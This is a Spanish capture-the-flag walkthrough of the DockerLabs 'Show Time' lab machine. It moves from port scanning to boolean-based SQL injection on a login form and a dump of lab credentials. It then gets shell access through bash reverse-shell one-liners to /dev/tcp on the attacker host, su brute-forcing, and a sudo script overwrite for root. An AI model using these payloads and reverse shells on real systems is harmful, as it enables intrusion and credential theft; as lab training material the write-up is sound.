 # SHOW TIME - DOCKERLABS

## INFORMACIÓN Y DESPLIEGUE DE LA MÁQUINA

Esta máquina es de [DockerLabs](https://dockerlabs.es)

Para descargarla vas a [DockerLabs](https://dockerlabs.es) y buscas la máquina Show Time. Abres el enlace de mega, descargas el zip, lo descomprimes y ejecutas `bash ./auto_deploy.sh ./showtime.tar`. De esta forma se ejecutará el contendor de docker de la máquina.

### descripción

- Dificultad: fácil
- Sistema Operativo: linux
- Autor: maciiii___

## RECONOCIMIENTO DE RED

### conectividad y SO

Comprobamos nuestra conectividad con la máquina: `ping -c 1 172.17.0.2`
> `-c 1` Solo enviar 1 paquete ICMP

![image](https://github.com/user-attachments/assets/75d6b7e0-7f86-440e-877b-7a8a41733a10)

Vemos que nos llega la respuesta de vuelta de la máquina, con TTL de 64 por lo que su SO es Linux.

### puertos y servicios

Hacemos un escaneo de todo el rango de puertos con nmap: `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG tcp_ports`.
> `-p-`: todo el rango de puertos

> `--open`: solo reportar los puertos abiertos

> `-sS`: usar el método de escaneo SYN, que es más sigiloso y rápido que el normal. Requiere privilegios a nivel de sistema para enviar raw packets

> `--min-rate 5000` enviar como mínimo 5000 paquetes por segundo

> `-vvv` triple verbose. Nada más descubrir un puerto lo muestra por pantalla, también muestra más información de lo normal sobre el escaneo

> `-n` no hacer resolución DNS

> `-Pn` no hacer host discovery

> `-oG tcp_ports` exportar el output en formato grepeable al archivo `tcp_ports`

#### puertos abiertos

**22 - TCP - SSH**

**80 - TCP - HTTP**

Hacemos un escaneo de servicios y versiones con nmap sobre los puertos abiertos: `nmap -p22,80 -sCV 172.17.0.2 -oN tcp_ports_targeted`.
> `-p22,80` hacer el escaneo sobre el puerto 22 y el 80.

> `-sCV` escanear el servicio y la versión (`sV`) y lanzar los scripts de reconocimiento por defecto (`sC`)

> `-oN tcp_ports_targeted` exportar el output en formato nmap al archivo `tcp_ports_targeted`

## RECONOCIMIENTO WEB

Antes de ir a ver la web desde el navegador, lanzamos desde consola el comando `whatweb http://172.17.0.2`. Vemos que la web es un Apache 2.4.58 y que la distro de la máquina es Ubuntu.

Ahora vemos la raíz de la web desde el navegador, y vemos este contenido:

![image](https://github.com/user-attachments/assets/7dd79aeb-48eb-42b6-8cc4-3669027a8b84)

Vemos un botón de login arriba a la derecha, que nos lleva a /login_page/index.php:

![image](https://github.com/user-attachments/assets/73518c8d-ba63-4244-b660-c09ad6568c84)

## EXPLOTACIÓN WEB

Vemos este panel. Si probamos a meter una comilla, sale un error de MySQL, por lo que es vulnerable a inyección SQL. Podemos comprobar que no es vulnerable a una inyección de tipo union based ya que no muestra los datos de las columnas, pero si que es vulnerable a una inyección boolean based. Podemos ir enviando consultas de verdadero o falso para conseguir bases de datos, tablas, columnas y registros. Por ejemplo, para sacara el primer caracter de la primera base de datos, podríamos hacer una consulta como esta: `admin' or (select substring(schema_name,1,1) from information_schema.schemata limit 0,1)='payload'-- -`, y capturar con burpsuite la petición para enviarla al intruder y poner un payload con muchos caracteres, y fijarnos en la respuesta del servidor para ver cual tiene un contenido diferente al resto, y entonces ese esrá el primer caracter. Siguiendo este concepto podemos programar un script en python que automatice todo el proceso del dump del motor MySQL: [script_SQLi](https://github.com/4bytess/dockerlabs-scripts/tree/main/showtime/SQLi).

Usando el script, conseguimos este dump:

![image](https://github.com/user-attachments/assets/781aef6d-129a-426b-8ea1-13c7ea7679fb)

Tenemos 3 credenciales:

- lucas:123321123321
- santiago:123456123456
- joe:MICLAVEESINHACKEABLE

Podemos probar todas en el panel de login de la página web. Las credenciales de lucas y santiago simplemente nos loguearan y nos dirán que estamos bienvenidos, pero la de joe nos lleva a la ruta /login_page/admin-panel.php, en la que hay un panel en el que podemos ejecutar comandos de python:

![image](https://github.com/user-attachments/assets/2a6ab221-3ef9-492f-a929-7b5f24ce744d)

Podemos escribir el comando `import os; os.system('/bin/bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"')` y ponernos en escucha por el puerto 443 con netcat: `netcat -nlvp 443`, y ganamos una consola como el usuario www-data:

![image](https://github.com/user-attachments/assets/d25bdcba-b747-4d9c-8b7c-233328a81c92)

## ESCALADA DE PRIVILEGIOS

### USUARIO JOE

Podemos probar a hacer `su joe` y poner su contraseña de la base de datos, pero no funciona. Si probamos a buscar archivos SUID no hay ninguno interesante. Tampoco tenemos permisos especiales con sudo. Pero si buscamos en la ruta /tmp hay un archivo oculto llamado .hidden_text.txt. Dentro hay una lista de palabras en mayúsculas. Podemos usar esta lista como diccionario para aplicar fuerza bruta sobre el usuario luciano y joe (sabemos que existen gracias al /etc/passwd) con la herramienta [Sudo_BruteForce](https://github.com/Maalfer/Sudo_BruteForce). Nos la descargamos en nuestra máquina con git y la traemos a la máquina con un servidor simple de python3 (`python3 -m http.server 80`). En la máquina ejecutamos en /tmp este comando `bash Linux-Su-Force.sh joe ./.hidden_text.txt` y `bash Linux-Su-Force.sh luciano ./.hidden_text.txt`. No reporta ninguna contraseña como válida. Podemos probar a pasar las contraseñas a minúscula: `tr "A-Z" "a-z" < ./.hidden_text.txt > lowercase.txt`, y volver a hacer fuerza bruta con el nuevo diccionario: `bash Linux-Su-Force.sh joe ./lowercase.txt` y `bash Linux-Su-Force.sh luciano ./lowercase.txt`. Esta vez reporta una contraseña para el usuario joe: "chittychittybangbang".

Ahora nos pasamos a una conexión SSH con las credenciales joe:chittychittybangbang.

### USUARIO LUCIANO

Siendo el usuario joe, podemos probar a hacer `sudo -l` para listar privilegios especiales en sudo. Vemos esto:

![image](https://github.com/user-attachments/assets/24dbd247-2a74-42ec-9cbe-5a92e89d5132)

Podemos ejecutar como luciano sin proporcionar contraseña el binario /bin/posh. Si probamos a ejecutar /bin/posh vemos que se nos abre una consola. Si probamos a hacer `sudo -u luciano /bin/posh` ganamos una consola como luciano:

![image](https://github.com/user-attachments/assets/a69279d7-1b25-4557-9856-b89774bfa848)

### ROOT

Ahora tenemos que llegar a ser root.

Si hacemos `sudo -l` vemos esto:

![image](https://github.com/user-attachments/assets/ac3b49d0-bc1a-4f69-a10c-5cf9070f1b9e)

Podemos ejecutar como root sin proporcionar contraseña el script /home/luciano/script.sh. Como el script está en nuestro directorio y somos su propietario, podemos simplemente modificarle para que root nos envíe una reverse shell al puerto 500 por ejemplo, y así ganar una consola como root.

En la máquina no hay editores de texto instalados, así que usamos echo: `echo "#!/bin/bash\n\n/bin/bash -i >& /dev/tcp/172.17.0.1/500 0>&1" > /home/luciano/script.sh`, nos ponemos en escucha por el puerto 500 en una consola aparte y ejecutamos el script: `sudo /bin/bash /home/luciano/script.sh`, y ganamos una consola como root:

![image](https://github.com/user-attachments/assets/8b86da5f-1a83-4e3e-9525-56505bd67ae7)

